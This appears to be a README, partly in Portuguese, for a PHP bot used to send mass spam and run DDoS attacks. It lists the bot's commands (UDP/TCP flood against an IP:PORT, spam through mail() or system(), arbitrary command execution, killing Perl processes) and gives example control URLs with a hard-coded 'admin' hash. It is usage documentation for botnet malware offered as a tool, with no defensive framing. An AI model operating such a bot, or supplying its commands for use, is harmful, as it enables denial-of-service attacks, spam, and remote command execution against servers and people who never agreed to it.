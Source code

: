 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
     command = ddos.
     flag = Attack method: udp, tcp.
     data = IP:PORT.
     
     phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
     
 - Spam:

        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

